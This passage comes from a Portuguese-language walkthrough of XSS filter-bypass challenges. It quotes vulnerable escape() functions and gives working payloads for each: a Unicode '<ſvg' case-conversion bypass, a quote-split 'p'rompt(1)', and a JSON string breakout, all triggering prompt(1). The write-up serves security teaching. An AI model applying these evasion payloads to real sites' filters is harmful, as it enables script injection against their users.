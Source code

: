 Esta função escape faz duas coisas, substitui `<` seguido de uma letra por `<_[letra]` e converte todo input para maiúsculas. O payload contorna as defesas com um `<ſvg` (com `ſ` Unicode, que parece `s` mas não é afetado por `toUpperCase()`) e um `onload` com entidades HTML para codificar `prompt(1)`.
[![imagem-2025-05-12-131040530.png](https://i.postimg.cc/7hF63kZ3/imagem-2025-05-12-131040530.png)](https://postimg.cc/bSRpP4br)

#### Desafio A: encodeURIComponent + filtro de prompt

- Código vulnerável:
[![imagem-2025-05-12-131322986.png](https://i.postimg.cc/vBkhLBg2/imagem-2025-05-12-131322986.png)](https://postimg.cc/tZdF99zF)

```bash
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}        
```
- Payload funcional:
```bash
p'rompt(1)
```
- Explicação:

São aplicadas duas transformações no input. Primeiramente codifica o input com `encodeURIComponent`, depois substitui `prompt`por `alert` e por fim remove as aspas simples. Para evitar as substituições usa-se `p'rompt`, e assim a função remove `'` transformando em `prompt(1)`.
[![imagem-2025-05-12-132414100.png](https://i.postimg.cc/Nf6qNy8H/imagem-2025-05-12-132414100.png)](https://postimg.cc/hft5vt5D)

#### Desafio B: Manipulação de JSON e injeção de script

- Código vulnerável:
[![imagem-2025-05-12-132615816.png](https://i.postimg.cc/RFgyrfsP/imagem-2025-05-12-132615816.png)](https://postimg.cc/zbR0KL1W)

```bash
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}        
```
- Payload funcional:
```bash
"(prompt(1))in"
```
- Explicação:

